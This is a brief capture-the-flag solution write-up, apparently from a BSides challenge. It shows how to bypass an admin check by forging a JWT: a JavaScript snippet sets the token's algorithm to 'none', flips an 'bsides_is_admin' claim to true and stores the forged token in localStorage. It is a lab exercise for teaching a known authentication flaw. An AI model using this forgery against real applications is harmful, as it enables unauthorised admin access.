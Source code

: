 # Solution

You could do all of this via the API or just by using the frontend.

## Register/Login

Register an account and login.

## Attempt to get the flag

Try to get the flag, notice you get a 401 Unauthorized. Inspect the request
and grab the JWT from the Authorization header.

## Inspect JWT

Visit jwt.io and paste in the JWT.
Note the `bsides_is_admin` claim in the payload and the HS256 alg in the header.

## Craft and store the JWT

```js
const tok = localStorage.getItem('jwt')
  .split('.')
  .slice(0, 2)
  .map(v => JSON.parse(atob(v)))
tok[0].alg = "none"
tok[1].bsides_is_admin = true
localStorage.setItem('jwt', tok.map(v => btoa(JSON.stringify(v))).join(".") + ".")
```

## Get the flag

Hit "Get flag"!
